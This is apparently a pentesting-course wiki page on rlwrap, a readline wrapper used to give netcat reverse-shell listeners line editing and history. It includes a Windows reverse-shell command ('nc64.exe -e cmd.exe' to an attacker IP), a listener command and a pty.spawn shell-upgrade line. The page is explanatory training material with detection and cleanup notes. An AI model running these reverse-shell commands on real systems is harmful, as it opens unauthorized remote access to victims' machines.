

# rlwrap

`rlwrap` (readline wrapper) is a small Unix/Linux utility that adds GNU Readline features — line editing, persistent command history, and tab completion — to any command that lacks them. In offensive work it is the standard way to make a raw netcat reverse shell usable.

## Overview

Many interactive programs read input with a plain `read()` loop and give you no arrow keys, no history, and no editing — the classic example being a raw [Windows](Windows-Basic-Commands.md) shell caught on a `nc` listener. `rlwrap` transparently sits between your terminal and the wrapped command: it hands your keystrokes to Readline first, then forwards the finished line to the command's standard input. The command is unaware anything changed, but you gain the same editing experience you have in `bash`.

Because it is a generic wrapper, `rlwrap` is used well beyond pentesting (databases, REPLs, embedded shells), but its most common use here is upgrading listeners created during reverse-shell delivery so the catching operator can edit commands and recall history.

## How It Works

`rlwrap` starts the target command as a child process and connects to it through a pseudo-terminal (PTY). Input you type is intercepted by Readline, giving you the full editing/history stack; only the completed line is written to the child's stdin. Output from the child is passed back to your terminal.



> [!NOTE]
> **It wraps the *local* program, not the remote host**
> When you run `rlwrap nc -nlvp 443`, Readline is applied to your local `nc` process. It does not install anything on the target and does not give the remote shell a real TTY — for full TTY features (job control, `Ctrl+C` handling, TAB on the remote) you still upgrade the shell itself (for example with `python3 -c 'import pty; pty.spawn("/bin/bash")'` on Linux targets). `rlwrap` and a TTY upgrade are complementary.

## Installation

On Debian/Ubuntu/Kali:

```bash
apt install rlwrap
```

On macOS (with Homebrew):

```bash
brew install rlwrap
```

## Basic Usage

Show the built-in help/usage:

```bash
rlwrap -h
```

Wrap any command by prefixing it with `rlwrap`:

```bash
rlwrap command [args...]
```

For example, start a netcat listener with readline support:

```bash
rlwrap nc -nlvp 443
```

When the target connects back — for instance a Windows victim executing a static netcat binary that pipes `cmd.exe` to your host:

```cmd
nc64.exe -e cmd.exe 192.168.1.7 443
```

— the resulting shell in your `rlwrap`-wrapped listener now supports arrow-key line editing, editing mistyped commands before pressing Enter, and recalling previous commands with the Up arrow, with history persisted across sessions.

## Useful Options

`rlwrap` exposes many Readline knobs; the ones most relevant to interactive/offensive use:

| Option | Description |
| --- | --- |
| `-a[password:]` | Always use readline, even when the wrapped command turns off echo (e.g. password prompts). Optional argument suppresses echo for that prompt. |
| `-c` | Complete local filenames on TAB. |
| `-f <file>` | Read an extra word list from `<file>` to use for completion. |
| `-r` | Remember words seen on input/output and add them to the completion list. |
| `-H <file>` | Read/write command history to `<file>` instead of the default. |
| `-s <N>` | Set the history buffer size to `<N>` lines. |
| `-i` | Case-insensitive completion. |
| `-D <0\|1\|2>` | History duplicate-avoidance level (0 = keep all, 2 = drop consecutive dupes). |
| `-m` | Enable multi-line editing (continuation lines). |

> [!TIP]
> **Persist a per-engagement history file**
> Combine `-H` with a scratch file so every command you type into a caught shell is logged and recallable, e.g. `rlwrap -H nc_hist.txt nc -nlvp 443`. The history file doubles as a rough command log for your notes and report.

## Security Considerations

> [!WARNING]
> **The history file is sensitive**
> `rlwrap` writes typed lines to a history file (`-H`, or `~/.command_history` style defaults). During an engagement that file can capture **credentials, hashes, and internal hostnames** you typed into a shell. Store it on encrypted media, treat it as engagement data, and delete it during cleanup. The `-a` option also echoes/records what would otherwise be a hidden password prompt — use it deliberately.

- `rlwrap` is a purely offensive-convenience tool on the attacker side; it does not run on or modify the target, so it has no direct defensive detection surface of its own.
- Defenders instead detect the *underlying* activity — the inbound reverse-shell connection and the `nc`/`nc64.exe -e` execution on the endpoint — not `rlwrap`. See [Windows-Firewall-and-AV-Commands](Windows-Firewall-and-AV-Commands.md) and process/EDR telemetry for the detection angle.
- Do not paste real credentials into a wrapped shell more than necessary; anything typed may land in the plaintext history file.

## Best Practices

- Reach for `rlwrap` whenever you catch a raw shell that lacks line editing (netcat, some database or embedded REPLs) — it costs nothing and saves retyping.
- Use a dedicated `-H` history file per engagement and clean it up afterward.
- Remember it is not a substitute for a real TTY upgrade — pair it with a `pty.spawn` / `stty` upgrade when you need full interactivity.
- Keep the wrapped command's own flags after the command name (`rlwrap nc -nlvp 443`), not before, so `rlwrap` doesn't try to interpret them.

## Troubleshooting

| Symptom | Likely cause & fix |
| --- | --- |
| Arrow keys print `^[[A` instead of recalling history | The wrapped program already provides its own line editing (or a full TTY) — `rlwrap` is redundant or conflicting; run the command without it. |
| No history persists between sessions | No history file specified and default not writable — add `-H <file>` pointing at a writable path. |
| TAB does nothing | Completion is off by default for arbitrary commands; add `-c` (filenames) or `-f <wordlist>`. |
| Password prompt shows the typed password | Expected when using `-a`; omit `-a` (or use `-a password:`) so echo stays off for hidden prompts. |
| Command not found | `rlwrap` not installed — `apt install rlwrap`. |

## References

- [rlwrap — GitHub project and manual](https://github.com/hanslub42/rlwrap)
- [rlwrap(1) man page (Ubuntu manuals)](https://manpages.ubuntu.com/manpages/noble/en/man1/rlwrap.1.html)
- [GNU Readline documentation](https://tiswww.case.edu/php/chet/readline/rltop.html)

## Related

- Remote-Code-Execution-to-Reverse-shell — wrap reverse-shell listeners for a usable terminal
- nc.bat — add readline history to netcat listener sessions
- [Windows-Basic-Commands](Windows-Basic-Commands.md) — the raw shell environment you are upgrading
- [Windows-Firewall-and-AV-Commands](Windows-Firewall-and-AV-Commands.md) — defensive detection of the underlying reverse shell
- [Enterprise Windows Infrastructure Security](../Readme.md) — course hub
